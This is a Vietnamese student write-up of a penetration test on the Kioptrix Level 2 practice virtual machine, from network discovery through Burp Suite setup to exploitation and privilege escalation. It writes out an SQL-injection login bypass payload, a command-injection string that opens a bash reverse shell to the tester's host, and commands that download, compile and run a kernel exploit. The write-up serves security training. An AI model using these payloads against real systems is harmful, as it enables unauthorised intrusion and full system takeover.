# Khai thác máy ảo  KioptrixL2 
## Người thực hiện :Trần Minh Đức
### Mục tiêu và Môi trường

Mục tiêu: Xác định các lỗ hổng bảo mật trên hệ thống mạng nội bộ thông qua việc thâm nhập hệ thống và kiểm tra khả năng khai thác lỗ hổng.
Môi trường: IP của hệ thống mục tiêu: 192.168.56.111
Các bước chi tiết của Pentest

#### Bước 1: Khám phá mạng

1.Xác định các thiết bị trong mạng nội bộ
oLệnh: netdiscover -i eth1
oMô tả: Sử dụng lệnh netdiscover để tìm ra các thiết bị kết nối trong cùng mạng với máy của pentester.



2.Quét các cổng mở và dịch vụ
Lệnh: sudo nmap -p- -A 192.168.56.111
Mô tả: Thực hiện quét toàn bộ các cổng để tìm các dịch vụ đang chạy trên máy mục tiêu. Sử dụng -A để thu thập thêm thông tin về hệ điều hành và phiên bản dịch vụ.



#### Bước 2: Cấu hình proxy trên Firefox
Mở Firefox và cấu hình proxy để chuyển hướng tất cả lưu lượng qua Burp Suite nhằm phân tích và chặn các yêu cầu HTTP.




Bước 3: Cài đặt và cấu hình Burp Suite

1.Cấu hình Java (nếu cần thiết cho Burp Suite):
Lệnh: update-alternatives --config java 

Mô tả: Đảm bảo cấu hình đúng phiên bản Java để Burp Suite có thể chạy ổn định.



2.Cài đặt chứng chỉ CA của Burp Suite trên Firefo

Thao tác:
Truy cập Burp Suite → CA Certificate → Tải chứng chỉ xuống.
Vào Firefox và import chứng chỉ để có thể giám sát lưu lượng HTTPS. 





Click vào CA Certificate download về
Sau đó vào firefox import certificate mới down về





Bước 4: Truy cập giao diện Web GUI của mục tiêu
URL: http://192.168.56.111
Thao tác: Truy cập trang Web GUI qua Firefox để bắt đầu quá trình thu thập thông tin.



Bật intercept trong burpsuite trước khi truy cập web 



#### Bước 5: Thực hiện SQL Injection
1.Phân tích mã nguồn trang web:

Nhấn chuột phải trên trình duyệt → View Page Source → Kiểm tra các trường nhập liệu và phát hiện lỗ hổng trong form đăng nhập.



2.Thử nghiệm SQL Injection:

Payload: uname= '+OR+1=1--+&psw=&btnLogin=Login
Mô tả: Sử dụng payload SQL Injection để bypass xác thực và đăng nhập vào hệ thống.



3.Sử dụng Burp Suite Intruder:

Gửi yêu cầu SQL Injection đến Intruder để thử nhiều payload khác nhau.

Thao tác:
Gửi request tới Intruder.
Sử dụng payload SQL Injection → Start Attack.
Mục tiêu: Khai thác lỗ hổng SQL Injection và ghi nhận phản hồi từ máy chủ.



Sau đó qua payload file gồm các chuỗi kí tự để sql injection
Sau đó clik Start attack



#### Bước 6: Mở phiên tương tác qua Burp Suite
1.Sau khi thành công khai thác, chọn Request in browser – In original session trên Burp Suite để tạo kết nối ổn định.
2.Dán URL phản hồi từ Burp Suite vào trình duyệt.



Tắt intercept để truy cập lại từ link URL từ Burp Suite



#### Bước 7: Thực hiện Local File Inclusion (LFI) và Reverse Shell

1.Lệnh kiểm tra kết nối cục bộ:
Lệnh: ping -c 3 127.0.0.1; ifconfig
Mục tiêu: Xác định thông tin về giao diện mạng và kiểm tra phản hồi.



2.Thiết lập phiên nghe trên máy pentester:
Lệnh: nc -nlvp 4444
Mô tả: Thiết lập Netcat để lắng nghe kết nối từ máy mục tiêu.



3.Kết nối Reverse Shell từ máy mục tiêu:
Lệnh (nhập trong Web GUI): 127.0.0.1; bash -i >& /dev/tcp/192.168.56.157/4444 0>&1
Lưu ý: Kiểm tra đúng địa chỉ IP của máy pentester bằng ifconfig trước khi kết nối.



Submit



#### Bước 8: Escalation Privilege (Tăng quyền)

1.Nhập vào phiên lệnh tương tác:
Lệnh: python -c 'import pty; pty.spawn("/bin/sh")'
Các lệnh thông tin hệ thống:
ls: Liệt kê tệp tin trong thư mục hiện tại.
pwd: Kiểm tra thư mục làm việc.
lsb_release -a: Xác định hệ điều hành.
uname -a: Kiểm tra thông tin kernel.



2.Tìm kiếm exploit phù hợp cho hệ điều hành: 

Thao tác: Google tìm kiếm mã khai thác phù hợp.

Link: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1) - Linux_x86 local Exploit



Sau đó mở 1 terminal mới lên 
Gõ lệnh vi 9542.c
Dán exploit vào và lưu lại tiếp tục gõ các lệnh bên dưới 
sudo mv 9542.c /var/www/html
sudo service apache2 start



#### Bước 9: Tải và thực thi mã khai thác

1.Viết và tải mã khai thác lên máy mục tiêu:
Lệnh:
cd /tmp
wget http://192.168.56.157/9542.c
gcc 9542.c -o 9542
chmod +x 9542
./9542



2.Tải mã khai thác bổ sung nếu cần:
URL: https://www.exploit-db.com/exploits/9545
Thao tác:
Copy exploit vào vi 9545.c
Tiếp tục gõ thông tin như sau



Sau đó chạy lại 



Kết quả và Đề xuất

1.Lỗ hổng phát hiện:
SQL Injection, LFI, và các phương thức tăng quyền bằng mã khai thác.

2.Khuyến nghị bảo mật:
Cập nhật và vá các lỗ hổng trên ứng dụng.
Kiểm tra và giới hạn các dịch vụ không cần thiết.
Xây dựng quy trình kiểm tra định kỳ nhằm phát hiện lỗ hổng kịp thời.
